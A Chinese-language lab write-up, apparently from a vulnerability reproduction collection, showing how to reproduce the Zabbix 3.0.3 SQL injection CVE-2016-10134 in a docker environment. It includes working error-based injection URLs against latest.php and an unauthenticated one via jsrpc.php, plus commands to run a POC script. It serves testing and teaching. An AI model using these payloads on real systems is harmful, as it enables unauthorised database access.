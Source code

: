 # zabbix latest.php SQL注入漏洞（CVE-2016-10134）

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

## 运行环境

执行如下命令启动zabbix 3.0.3:

```
docker-compose up -d
```

执行命令后，将启动数据库（mysql）、zabbix server、zabbix agent、zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker-compose ps`查看容器状态，并通过`docker-compose start`来重新启动容器。

## 复现漏洞

访问`http://your-ip:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![](1.png)

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![](2.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![](3.png)

## POC验证

调试中发现不用用户名和密码也可以进行sql注入，实现细节见POC。

```shell
python3 CVE-2016-10134.py -t 127.0.0.1:8080

python3 CVE-2016-10134.py --target 127.0.0.1:8080
```

